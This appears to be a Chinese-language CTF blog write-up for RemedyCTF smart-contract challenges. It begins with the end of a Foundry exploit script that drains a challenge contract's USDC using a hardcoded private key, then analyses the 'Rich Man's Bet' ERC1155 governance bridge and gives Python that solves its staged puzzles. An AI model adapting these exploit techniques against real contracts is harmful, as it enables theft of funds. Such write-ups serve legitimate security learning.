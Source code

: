 ```solidity
            console.log("cusdc.balanceOf(m) < 0.01e18", cusdc.balanceOf(address(m)) < 0.01e18);
        }

        usdc.transfer(msg.sender, usdc.balanceOf(address(this)));
    }
}

contract ExploitScript is Script {
    uint256 public privateKey = 0x264dc4c5e6f74aa75583dd3e7f8784e072511ab505012e43f8bef980174b6467;
    IChallenge public chal = IChallenge(0xb5284fE2119E23c672A80Ac11B05c67D3c072eAf);

    function setUp() public {}

    function run() public {
        vm.startBroadcast(privateKey);
        Exploit e = new Exploit(chal);
        chal.USDC().transfer(address(e), 500e6);
        e.pwn();
        vm.stopBroadcast();
    }
}
```

# 2025-08-06

欸，RemedyCTF还有一个最简单的题目Rich Man's Bet，下面是Writeup（附件也不给了）

这题相比前面的Diamond Heist，合约数量大幅降低，但是作为一个治理合约这题难度也不低（虽然也是并列第3高解出的题目）

那么还是老样子，先分析一下合约内容：

- AdminNFT.sol是一个基础的ERC1155合约，这种合约支持多个代币的存储和批量转发
- Challenge.sol里面包含了我们的最终目标：完成“挑战”并且将跨链桥合约的余额全部转走（虽然这题并没有也不需要跨链），至于挑战就是非常简单的3个数学题，随便代进去几个数就做出来了
- 核心合约Bridge.sol是一个ERC1155Receiver合约，说明这个合约支持ERC1155的多代币批量转发操作，同时我们也能看到有个`onERC1155Received`，即接收到ERC1155转入的代币会自动调用该函数，同理还有个`onERC1155BatchReceived`会在接收到批量转发的代币的时候被调用 当然作为治理合约，肯定有治理逻辑，这里就是通过NFT的Power进行治理的：Admin持有的NFT的Power是10000 ether，而一般的NFT只有50 ether，而更改跨链桥设置需要所有签名人的Power大于总数的一半且都为Validator，而最终的`withdrawEth`则需要所有支持提款的总人数超过阈值（Challenge.sol设定为10）且都在初始设定的`withdrawValidator`名单中，但是很明显除了合约自己我们谁都不在名单里面...

好的，现在让我们开始做题，首先我们可以很快得到三道数学题的一组合法解，解出来后在Bridge中验证挑战即可完成`isSolved`的前面2个要求：

```Python
def main():
    # 1. Solve the 3 stages
    # Q1: 6  Q2: 59,101  Q3: 1 0 2
    print("\nSolving stages...")
    send_transaction(challenge.functions.solveStage1(6), account)
    print("\nStage 1 completed")
    send_transaction(challenge.functions.solveStage2(59, 101), account)
    print("\nStage 2 completed")
    send_transaction(challenge.functions.solveStage3(1, 0, 2), account)
    print("\nStage 3 completed")

    # 2. Verify challenge
    send_transaction(bridge.functions.verifyChallenge(), account)
    if challenge.functions.challengeSolved().call():
        print("\nChallenge verified")
    else:
        print("\nChallenge failed")
```
